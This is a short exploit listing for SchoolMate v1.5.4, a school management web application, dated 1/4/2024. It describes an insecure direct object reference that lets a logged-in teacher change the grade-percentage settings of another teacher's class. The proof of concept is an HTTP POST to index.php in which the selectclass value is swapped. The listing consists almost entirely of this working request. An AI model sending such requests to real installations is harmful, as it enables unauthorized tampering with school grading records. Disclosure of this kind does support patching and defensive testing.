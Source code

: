 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker teacher to update setting of class that is assigned by other teacher(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...
aperc=10&bperc=20&cperc=30&dperc=40&page2=1&logout=&page=2&selectclass=1(CHANGE HERE)&update=1
```